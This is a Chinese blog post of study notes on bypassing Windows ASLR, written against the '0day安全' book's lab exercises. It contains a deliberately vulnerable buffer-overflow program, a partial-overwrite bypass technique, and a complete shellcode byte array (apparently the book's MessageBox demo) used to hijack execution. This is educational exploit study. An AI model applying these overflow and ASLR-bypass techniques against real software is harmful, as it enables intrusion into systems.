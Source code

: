 ```yaml
---
layout: post
title:  "《0day安全》ASLR保护"
date:   2019-3-29
categories: 
excerpt: 
---
```


* content
{:toc}


# **ASLR介绍**

## **简介**

微软的ASLR（Address Space Layout
Randomization）技术就是通过加载程序的时候不再使用固定的基址加载，从而干扰shellcode的定位

从Windows Vista开始出现ASLR（Windows XP只是对PEB和TEB进行了简单的随机化处理）

ASLR的实现需要程序自身的支持和操作系统的双重支持，其中程序的支持不是必需的。

支持ASLR的程序在它的PE头中会设置IMAGE_DLL_CHARACTERISTICS_DYNAMIC_BASE标识。

## **类型**

### **映像随机化**

在PE文件映射到内存时，对其加载的虚拟地址进行随机化处理，这个地址是在系统启动时确定的，系统重启后这个地址会发生变化。

出于兼容性的考虑，微软在系统中设置了映像随机化的开关，用户可以通过设置注册表中HKEY_LOCAL_MACHINESYSTEMCurrentControlSetControlSession
ManageMemory ManagementMoveImages的键值来设定映像随机化的工作模式。

设置为0时映像随机化将禁用。

设置为-1时强制对可随机化的映像进行处理，无论是否设置注册表。

设置为其他值为正常1工作模式，安装注册表来执行。

### **堆栈随机化**

堆栈的基址不是在系统启动时确定的，而是在打开程序的时候确定的，同一程序任意两次运行时的堆栈基址都是不同的。也就是各变量在内存中的位置也是不确定的。

### **PEB与TEB随机化**

	#include "stdio.h"

	#include "stdlib.h"

	int main(int argc, char* argv[]){

		unsigned int teb;

		unsigned int peb;

		__asm{

		mov eax,FS:[0x18]

		mov teb,eax

		mov eax,dword ptr [eax+0x30]

		mov peb,eax

		}

		printf("PEB:%#0.4xnTEB:%#0.4x", peb, teb);

		getchar();

		return 0;

	}

可以用上面的代码查看当前进程的TEB和PEB。

同时可以发现PEB和TEB的随机化不是非常好。

# **ASLR的局限**

## **映像随机化**

虽然模块的加载基址变了，但是各模块的入口点（Entry那列）地址的低位两个字节是不变的，也就是说映像随机化只是对加载基址的前两个字节做了随机处理。例如0x12345678,随机之后0x5678是不变的。

## **堆栈随机化**

随机化了堆栈的基址可以有效的防止精准攻击，但自从JMP
ESP跳板指令开始使用后溢出时很少直接跳到shellcode执行；另外在浏览器攻击方面很流行的heap
spray等技术都不需要精准跳转，只需要跳到一个大概位置就可以。

## **PEB与TEB随机化**

随机化程度非常差，而且虽然地址是随机了但偏移量是固定的，也就是TEB存放在FS:0和FS:[0x18]处，PEB放在TEB偏移0x30的位置。

# **ASLR的突破**

## **攻击未启用ASLR的模块**

ASLR仅仅是项安全机制，不是什么行业标准，不支持ASLR的软件有很多。所以我们可以找到一块未开启ASLR的模块，利用它里面的指令作为跳板。

## **利用部分覆盖进行定位内存地址**

无论是函数的返回地址，还是异常处理函数的指针，或者是虚函数表指针都是要存放到堆栈中的，虽然保存的地址是经过随机处理之后的地址，但是也仅仅是前2个字节的随机化，如果我们只覆盖这个地址的最后一个或两个字节，就可以达到目的了

ASLR只是随机化了映像的加载基址，而没有对指令序列进行随机化。所以绝对地址虽然变了，但相对地址确没有改变。

调试代码：

	#include "stdafx.h"

	#include "stdlib.h"

	char shellcode[]=;

	char * test()

	{

		char tt[256];

		memcpy(tt,shellcode,262);

		return tt;

	}

	int _tmain(int argc, _TCHAR* argv[])

	{

		char temp[200];

		test();

		return 0;

	}

![](http://ww1.sinaimg.cn/large/7fb67c86gy1g1n4v311d2j20j307c0ud.jpg)

	return tt;
就是把调用test函数后，eax保存的是tt数组的首地址，所以我们只要再调用call eax就行了

前面一大串shellcode和x90可以把tt溢出，作者原话是可以通过OllyFindAddr插件
找到call eax，但我试了一下并没有找到
![](http://ww1.sinaimg.cn/large/7fb67c86ly1g1n83c7eokj212i0jrjxk.jpg)
（这里一定要用实验函数内的call eax，这样才不会随机化，其他dll里面的不能用）
那退回到代码，ctrl+f直接找命令，找到了
![](http://ww1.sinaimg.cn/large/7fb67c86ly1g1n84maxcnj20o607iq3y.jpg)
截取最后两个字节，将它覆盖到test函数的返回地址就可以了。
![](http://ww1.sinaimg.cn/large/7fb67c86ly1g1n86vgaxcj212g0li0yc.jpg)
![](http://ww1.sinaimg.cn/large/7fb67c86ly1g1n87hr7n4j20ub0m7dls.jpg)
我们已经成功的跳转到了shellcode的位置。

最后的shellcode

	char shellcode[]=

	"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
	"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
	"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
	"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
	"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
	"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
	"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
	"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
	"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
	"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
	"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90"
	"\x1c\x14"
	;


## **利用Heap spray技术定位内存地址**

Heap
spray技术就是应对堆空间随机分配的问题产生的，因为没有学习javascrip，以后再补充

## **利用Java applet heap spray技术定位内存地址**

以后补充

## **为.NET控件禁用ASLR**

以后补充
